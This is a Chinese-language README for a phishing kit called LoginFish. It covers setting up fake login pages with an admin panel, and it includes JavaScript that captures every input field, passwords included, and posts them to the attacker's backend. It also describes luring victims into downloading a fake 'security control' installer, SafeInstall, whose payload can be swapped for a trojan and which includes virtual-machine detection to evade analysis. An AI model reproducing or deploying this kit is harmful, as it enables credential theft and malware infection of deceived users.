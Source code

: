 

# LoginFish 通用钓鱼工具
[视频介绍](https://www.bilibili.com/video/BV1Tv4y1u7Ze)

![index](/images/index.png)
![admin](/images/admin.png)
![admin2](/images/index2.png)
![admin3](/images/index3.png)

## 使用方法


```
# 后台登录密码,请修改 password.txt 
# 第一次运行会自动生成密码 写到 password.txt
# 后台地址 http://host:5522/admin/login
# 默认端口5522 

./LoginFish port
./LoginFish 80

```


## 密码记录

![](images/body.png)

可以参考`/static/template/front_login_keylogger.html`文件

所有`input`标签的内容都会被提交到后端,引用`<script src="/static/dist/login.js"></script>`并把登录按钮绑定到`login_submit()`函数即可

你也可以自定义`login.js`,并控制登录之后的返回信息

比如说点击登录之后执行`alert('帐号/密码校验不通过')`

```js
function login_submit() {
    var input = document.getElementsByTagName('input')
    var data = ''
    for (var i = 0; i < input.length; i++) {
        const put = input[i]
        var name = ''
        if (put.className) name = '_' + put.className
        if (put.name) name = '_' + put.name
        var key = `input[${i}${name}]=${put.value}`;
        data = data + key + '&'
    }
    if (data != '') post(data)
    console.log(data)
}
```


## 模板修改

打开`static/template/`目录,默认有俩个模板,分别是`front_login_1.html`和`front_login.html`

如果需要`css`和`js`文件则把其放在`static/dist`中

模板中使用`<script src="/static/dist/login.js"></script>` 这样的路径进行引用

如果需要自定义模板,则在`static/template/`中创建以`front_`开头的html文件即可.

然后需要引用`<script src="/static/dist/login.js"></script>` 文件,再把某个下载按钮绑定到`onclick_input`事件即可

```js
 <div onclick="onclick_input()">
        <label for="password">密码</label>
        <input name="password" class="password" type="password" disabled placeholder="下载安全控件" id="password">
 </div>
```

或者你也可以直接使用`<a href='/down'>下载</a>` 这样的方式去绑定下载地址.

## SafeInstall 模拟安全控件

使用`Visual Studio 2015`与`.NET 4.0`开发,替换木马需要修改资源文件中的`load`

如果需要关闭屏蔽虚拟机,则编辑`SafeInstall/SafeInstall/Form1.cs`文件

```c#
public Form1()
{
    checkVM(); //注释该行即可
    writeFile();
    InitializeComponent();
    progressBar1.Value = 0;
    timer1.Interval = 50;
    timer1.Start();
}
```

